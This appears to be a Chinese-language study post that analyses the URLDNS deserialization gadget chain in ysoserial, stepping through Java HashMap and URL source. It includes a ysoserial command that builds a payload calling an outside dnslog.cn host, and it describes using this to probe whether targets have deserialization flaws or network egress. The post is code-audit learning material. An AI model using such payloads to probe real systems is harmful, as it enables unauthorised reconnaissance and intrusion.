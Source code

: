 urldns其实在没学审计之前经常用会搭配上[http://www.dnslog.cn/](http://www.dnslog.cn/)一起来用，像web打点，隧道代理会经常用到。例如作来判断目标机器是否出网、不走icmp的话是否走dns、目标机是不是真正意义上的不出网，又或者在⽬标没有回显的时候，能够通过DNS请求得知是否存在反序列化漏洞

在ysoserial中<br />**java -jar ysoserial.jar URLDNS "http://uey8lt.dnslog.cn"**<br />**<br />**<br />**利用链是如下四个步骤<br />**<br />_*   Gadget Chain:<br />*     HashMap.readObject()<br />*       HashMap.putVal()<br />*         HashMap.hash()<br />*           URL.hashCode()_<br />_<br />_
<a name="zpC7X"></a>
## Payload生成
ysoserial生成payload的点主要在GeneratePayload，寻找入口点，可以在pom.xml文件中的mainClass标签

![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1613108833534-b0994030-689f-4641-a760-89ef8ff09186.png#align=left&display=inline&height=301&originHeight=602&originWidth=1369&size=48195&status=done&style=none&width=684.5)<br />传入Program arguments进行代码调试

![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1613108869747-de3b9ab6-9687-4c84-8ea1-8120807c7f4d.png#align=left&display=inline&height=314&originHeight=627&originWidth=1328&size=35548&status=done&style=none&width=664)<br />传入的payload，如果不为空，通过object进入serialize序列化输出。

![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1613109443401-8f493cd5-7bce-483a-9ffe-0702d7e79521.png#align=left&display=inline&height=227&originHeight=454&originWidth=1081&size=31658&status=done&style=none&width=540.5)



<a name="6mxBS"></a>
## 分析
handler是被URLStreamHandler实例化的，是个多态语句。<br />HashMap实例化ht，相当于put也是用HashMap的put方法<br />![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1613057611809-82ccc0c9-b15d-4bd2-946f-42dd024ab7d5.png#align=left&display=inline&height=167&originHeight=335&originWidth=1270&size=24451&status=done&style=none&width=635)<br />handler、ht、u都是经过实例化属性的还没有一个正式的方法调用。直至ht.put，所以要跟进ht中的put方法，其实也就是进入HashMap类中，因为ht是被HashMap所实例化的。<br />跟进后可以发现，put方法主要是return一个putVal的方法，里边的参数值有hash(key)，key和value。<br />![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1613058303409-163613d2-fb62-4b80-8de2-c832edc26b35.png#align=left&display=inline&height=77&originHeight=102&originWidth=766&size=6566&status=done&style=none&width=575)<br />其实在前面URLDNS类中，put方法的两个参数主要是经过URL类实例化的u，还有传入的url值，所以在putVal中，key值得是u，value是url，而hash(key)指的是hash(u)

![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1613058541310-53e744ee-c864-4b85-b3e5-3539e37828be.png#align=left&display=inline&height=386&originHeight=515&originWidth=759&size=33623&status=done&style=none&width=569)<br />回到HashMap中，HashMap有个泛型，自动绑定了前面所说的key和value的对象 :<br />                                                                                                                        HashMap<K,V><br />↓<br />ht.put(u,url)

并且HashMap类是要从Serializable接口中实现功能点，所以，如果这里存在readObject的话，就会存在反序列化。<br />![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1613060365339-30f5d549-f899-4f39-adae-c7c6857b8b1b.png#align=left&display=inline&height=183&originHeight=366&originWidth=899&size=22422&status=done&style=none&width=449.5)<br />全局搜readObject，在1392-1397行中可以看到key和value的值是经过readObject方法处理，并且处理完的key值是要传入hash方法中<br />![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1613060506435-a971257f-f9fb-4f68-ab88-7d4e0cb6f9f4.png#align=left&display=inline&height=137&originHeight=182&originWidth=732&size=11063&status=done&style=none&width=549)<br />putVal中的hash跟进看一看，来到了如下代码中，代码中的key是被Object实例化的，如果key值不为空，则进入hashCode方法中，可以跟进hashCode方法。在前面说过，key其实是值u，而u是被URL实例化的，所以这里的hashCode应该进入URL中的hashCode方法。<br />![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1613060964951-41c79ba9-af09-4c06-8573-008ec6ecb951.png#align=left&display=inline&height=82&originHeight=109&originWidth=801&size=6376&status=done&style=none&width=601)<br />进入URL类中全局搜hashCode方法，如果hashCode值不为-1则进入handler，handler在URLDNS类中被URLStreamHandler实例化<br />![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1613061657216-db6b526a-8fb0-481b-8fc7-e0d6e2505242.png#align=left&display=inline&height=343&originHeight=457&originWidth=635&size=26141&status=done&style=none&width=476)<br />直接跟进handler中的hashCode，hashCode方法中，都是给h赋值，只有getHostAddress方法，所以对getHostAddress方法跟进<br />![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1613062048146-cae8639a-07d1-467f-8700-dc965857ea6c.png#align=left&display=inline&height=444&originHeight=592&originWidth=744&size=30669&status=done&style=none&width=558)<br />来到了这一行中<br />![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1613062162872-e1a16173-eab9-45fd-8072-8aa0e853de52.png#align=left&display=inline&height=323&originHeight=431&originWidth=709&size=17868&status=done&style=none&width=532)<br />看java的文档，InetAddress.getByName，是可以确定主机名称的IP地址。 该方法会使用远程请求，进行获取主机的ip，那么这时候就会触发一次请求，到了这里我们的dnslog平台，就可以收到响应了。这就是这个URLDNS链的一个触发点。<br />![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1613062275796-31f23bc4-362f-40e0-a95a-fefaf59cad88.png#align=left&display=inline&height=324&originHeight=648&originWidth=1517&size=49250&status=done&style=none&width=758.5)<br />![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1613062336376-bb878ea1-1be2-4948-a203-4f4ae5df535d.png#align=left&display=inline&height=230&originHeight=460&originWidth=1076&size=30118&status=done&style=none&width=538)


----------<br />所以urldns链主要是因为HashMap这个类的实现中存在反序列化readObject()方法，完整的利用链如下<br />![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1613097575677-ec206f62-a9d9-4033-b49f-dac202f0d650.png#align=left&display=inline&height=191&originHeight=255&originWidth=638&size=11242&status=done&style=none&width=479)


